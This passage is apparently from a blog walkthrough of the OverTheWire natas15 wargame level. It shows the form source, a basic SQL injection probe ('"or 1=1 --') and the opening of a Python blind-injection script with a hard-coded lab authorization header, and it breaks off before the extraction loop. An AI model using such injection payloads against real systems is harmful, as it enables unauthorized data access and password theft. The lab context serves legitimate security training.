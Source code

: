     mysql_close($link);
} else {
?&gt;

&lt;form action="index.php" method="POST"&gt;
Username: &lt;input name="username"&gt;&lt;br&gt;
&lt;input type="submit" value="Check existence" /&gt;
&lt;/form&gt;
&lt;? } ?&gt;</pre>

It looks like another SQL Injection just like the previous level. Let&#8217;s try a basic SQLi statement like before:

<span class="lang:mysql decode:true crayon-inline">&#8220;or 1=1 &#8212; </span>

<img class="alignnone size-full wp-image-242" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_11h05_51.png" alt="" width="595" height="136" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_11h05_51.png 595w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_11h05_51-300x69.png 300w" sizes="(max-width: 595px) 100vw, 595px" /> 

So it&#8217;s proven to be vulnerable, now we need to exploit it to get the password out. I checked that natas16 is a user, so we need to pull the password out of that record specifically.

The script only shows a few different possible outputs, depending on the state of the result, suppressing any error messages. So this is a Blind SQL Injection and requires more patience to exploit.

Best way that I know of is to validate each character of the password with the output states &#8220;This user exists&#8221; or &#8220;This user doesn&#8217;t exist&#8221;. Since doing this by hand will take forever and a day, a python script is how I chose to do it. Here is my code to get the password:

<pre class="lang:python decode:true  ">#!/usr/bin/python3
#
# main execution script for solving natas15 on OverTheWire.org

import requests

# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Characters used
usedChars = ''
# Final Password
password = ''
# Our target URL
target = "http://natas15.natas.labs.overthewire.org"
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
    'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
}
